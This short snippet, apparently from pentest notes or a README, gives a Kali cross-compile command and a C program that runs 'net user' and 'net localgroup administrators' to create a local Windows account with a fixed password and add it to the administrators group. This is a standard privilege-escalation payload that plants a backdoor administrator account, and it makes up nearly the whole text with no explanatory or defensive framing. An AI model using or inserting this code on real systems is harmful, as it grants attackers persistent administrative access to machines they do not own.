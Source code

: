 TO COMPILE THIS FROM KALI

``` bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```


``` C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}



